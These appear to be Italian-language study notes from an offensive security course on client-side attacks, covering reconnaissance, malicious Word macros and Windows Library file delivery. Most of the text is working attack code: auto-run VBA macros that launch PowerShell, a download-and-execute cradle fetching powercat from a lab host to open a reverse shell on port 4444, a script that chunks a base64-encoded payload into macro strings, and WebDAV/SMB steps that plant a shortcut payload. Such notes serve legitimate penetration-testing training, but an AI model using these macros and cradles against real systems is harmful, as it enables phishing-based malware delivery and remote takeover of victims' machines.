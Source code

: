## 11.1.1. Information Gathering

```bash
exiftool -a -u brochure.pdf

gobuster dir -x .pdf -w /usr/share/wordlists/dirb/common.txt -u http://$IP/
```

## 11.1.2. Client Fingerprinting
- https://github.com/laramies/theHarvester
- https://canarytokens.com/
- https://canarytokens.com/generate

## 11.2.3. Leveraging Microsoft Word Macros

- Primo esempio di macro:

```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

- Secondo esempio di macro:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

```bash
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powergat.ps4');powergat -c 192.168.119.2 -p 4444 -e powersbel
```

-  Dopo aver convertito questo comando in base64, lo dividiamo in più chunks tramite questo script:

```bash
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Alla fine otteniamo questo:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

- Ci mettiamo in ascolto:

```bash
nc -nvlp 4444
```

## 11.3.1. Obtaining Code Execution via Windows Library Files

```bash
pip3 install wsgidav

mkdir /home/kali/webdav

/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

- Creare il file config.Library-ms su windows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.212</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

-  Poi viene creato uno shortcut contenente un payload per scaricare powercat e avviare una reverse shell.
- Caricato il file config.Library-ms tramite smb:

```bash
cd webdav

smbclient //$IP$/share -c 'put config.Library-ms'
```

## Capstone
